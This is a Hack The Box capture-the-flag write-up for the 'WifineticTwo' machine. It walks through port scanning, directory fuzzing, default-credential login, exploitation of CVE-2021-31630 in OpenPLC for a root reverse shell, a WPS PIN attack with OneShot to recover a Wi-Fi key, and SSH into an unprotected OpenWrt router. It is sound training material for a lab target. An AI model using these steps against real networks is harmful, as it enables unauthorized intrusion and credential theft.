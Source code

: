 ![WifineticTwo](https://github.com/amalcew/htb-writeups/assets/73908014/c22abb67-1d9f-4664-8382-db4c2918cd99)

## Reconnaissance & port scanning

Starting with the enumeration:

```bash
> nmap 10.10.11.7 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 15:13 CEST
Nmap scan report for 10.10.11.7 (10.10.11.7)
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
```

The target is hosting a website on port 8080, so let's fuzz the directories:

```bash
> ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.11.7:8080/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.7:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 200, Size: 4550, Words: 1574, Lines: 138, Duration: 143ms]
users                   [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 115ms]
hardware                [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 120ms]
programs                [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 123ms]
logout                  [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 134ms]
settings                [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 143ms]
dashboard               [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 104ms]
monitoring              [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 74ms]
                        [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 227ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

The host contain some valuable endpoints, which will prove useful.

The webpage greets us with login prompt:

![01-initial_page](https://github.com/amalcew/htb-writeups/assets/73908014/53fd1654-21c5-431d-ba3c-62f62c273558)

## Initial foothold

### Default credentials

Inspection of the page did not returned any clues, so before starting bruteforcing the credentials it is always important to check the documentation for any default credentials.

![Untitled](https://github.com/amalcew/htb-writeups/assets/73908014/d6db6aec-59a5-4824-9c6e-0d06e5ea21e8)

Apparently, this was sufficient to gain access to the panel:

![image](https://github.com/amalcew/htb-writeups/assets/73908014/e7f2c6b9-77c2-403b-8cd8-54a35f769633)

### Command injection

As box exploration followed, I've discovered that the target might be vulnerable to [CVE-2021-31630](https://nvd.nist.gov/vuln/detail/CVE-2021-31630), which means that it should be possible to gain reverse shell to the target.

There are many POCs and exploits on the internet, but attempts to execute them were unsuccessful. To leverage this vulnerability, the manual exploitation is required:

After logging to the panel, paste the payload inside hardware tab:

![02-hardware](https://github.com/amalcew/htb-writeups/assets/73908014/071d38bf-6fdf-40cf-b040-7b15cf826e3a)

Now the code need to be compiled:

![03-compilation](https://github.com/amalcew/htb-writeups/assets/73908014/797930c8-46b8-4dbb-889d-69a5a35446a4)

To execute the  reverse shell, we need to start the PLC:

![04-start_plc](https://github.com/amalcew/htb-writeups/assets/73908014/4a4d58ff-0245-427f-a6a1-f187cbf75a54)

The remote code execution is achieved:

```bash
> nc -lnvp 1234  
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.7] 38300
bash: cannot set terminal process group (171): Inappropriate ioctl for device
bash: no job control in this shell
root@attica02:/opt/PLC/OpenPLC_v3/webserver# whoami
whoami
root
root@attica02:/opt/PLC/OpenPLC_v3/webserver# cat /root/user.txt
cat /root/user.txt
c9ae************************b381
```

## Privileges escalation

As we are already logged as root, the probable root flag may be stored on different machine. Further enumeration of the box revealed, that target has wireless interface:

```bash
root@attica02:~# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0@if19: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:fb:30:c8 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.0.3.3/24 brd 10.0.3.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet 10.0.3.44/24 metric 100 brd 10.0.3.255 scope global secondary dynamic eth0
       valid_lft 2745sec preferred_lft 2745sec
    inet6 fe80::216:3eff:fefb:30c8/64 scope link 
       valid_lft forever preferred_lft forever
6: wlan0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 02:00:00:00:03:00 brd ff:ff:ff:ff:ff:ff
```

and available wireless network:

```bash
root@attica02:~# iw dev wlan0 scan
iw dev wlan0 scan
BSS 02:00:00:00:01:00(on wlan0)
        last seen: 36927.800s [boottime]
        TSF: 1719238565617112 usec (19898d, 14:16:05)
        freq: 2412
        beacon interval: 100 TUs
        capability: ESS Privacy ShortSlotTime (0x0411)
        signal: -30.00 dBm
        last seen: 0 ms ago
        Information elements from Probe Response frame:
        SSID: plcrouter
        Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 
        DS Parameter set: channel 1
        ERP: Barker_Preamble_Mode
        Extended supported rates: 24.0 36.0 48.0 54.0 
        RSN:     * Version: 1
                 * Group cipher: CCMP
                 * Pairwise ciphers: CCMP
                 * Authentication suites: PSK
                 * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
        Supported operating classes:
                 * current operating class: 81
        Extended capabilities:
                 * Extended Channel Switching
                 * SSID List
                 * Operating Mode Notification
        WPS:     * Version: 1.0
                 * Wi-Fi Protected Setup State: 2 (Configured)
                 * Response Type: 3 (AP)
                 * UUID: 572cf82f-c957-5653-9b16-b5cfb298abf1
                 * Manufacturer:  
                 * Model:  
                 * Model Number:  
                 * Serial Number:  
                 * Primary Device Type: 0-00000000-0
                 * Device name:  
                 * Config methods: Label, Display, Keypad
                 * Version2: 2.0
```

To exploit the WPS, we can utilize [OneShot](https://github.com/kimocoder/OneShot) tool:

```bash
root@attica02:~# python3 oneshot.py -i wlan0 -K
python3 oneshot.py -i wlan0 -K
[*] Running wpa_supplicant…
[*] BSSID not specified (--bssid) — scanning for available networks
Networks list:
#    BSSID              ESSID                     Sec.     PWR  WSC device name             WSC model
1)   02:00:00:00:01:00  plcrouter                 WPA2     -30                                 
Select target (press Enter to refresh): 1
[*] Running wpa_supplicant…
[*] Trying PIN '12345670'…
[*] Scanning…
[*] Authenticating…
[+] Authenticated
[*] Associating with AP…
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response…
[*] Received WPS Message M1
[P] E-Nonce: ************
[*] Sending WPS Message M2…
[P] PKR: ************
[P] PKE: ************
[P] AuthKey: ************
[*] Received WPS Message M3
[P] E-Hash1: ************
[P] E-Hash2: ************
[*] Sending WPS Message M4…
[*] Received WPS Message M5
[+] The first half of the PIN is valid
[*] Sending WPS Message M6…
[*] Received WPS Message M7
[+] WPS PIN: '12345670'
[+] WPA PSK: 'NoW************23!'
[+] AP SSID: 'plcrouter'

```

The tool was able to retrieve PSK for network `plcrouter`. To connect to the network, we can use Unix tool `wpa_supplicant`:

```bash
root@attica02:~# wpa_passphrase plcrouter 'NoW************23!' > key
root@attica02:~# wpa_supplicant -B -c key -i wlan0
root@attica02:~# ifconfig wlan0 192.168.1.5 netmask 255.255.255.0
```

with assigned IP address, we can try to log into the router:

```bash
root@attica02:~# ssh root@192.168.1.1


BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~# ls
root.txt
root@ap:~# cat root.txt 
e85c************************8e85
```
